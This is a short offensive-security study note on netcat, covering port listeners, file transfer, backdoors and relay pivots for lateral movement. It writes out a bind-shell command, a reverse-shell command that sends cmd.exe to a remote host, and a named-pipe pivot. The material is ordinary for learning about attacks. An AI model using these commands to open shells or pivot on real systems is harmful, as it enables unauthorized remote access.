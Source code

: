 ```yaml
---
tags:
  - red
MOC: "[[Offensive Security Concepts MOC]]"
---
```

-- --

Netcat is a great tool for a variety of [[Network MOC|network]] connections. 

# Connecting to Open Ports

Create a listener with `nc -l -p <port>` and a receiver with `nc <ip> <port>` for two-way communication.  
# Data Transfer

A file can be hosted by piping it into the listening netcat command. [[UDP Protocol]] connection can be used by adding the `-u` flag.

A file can be pulled by piping the listener into a file. Like pushing transfer, there is no indication of success and must be canceled. 

# Backdoors

Creating a simple backdoor just runs the connected info directly to the shell. `nc -l -p <port> -e /bin/sh`. Create a reverse connection by `nc <ip> <port> -e cmd.exe`.  
# Relays

Relays are important for lateral movement in an attack. 

Create a named pipe with `mkfifo <pipe_name>`. Create a pivot with `nc -l -p <port> < <pipe_name> | nc <target_ip> <target_port> > <pipe_name>`. 
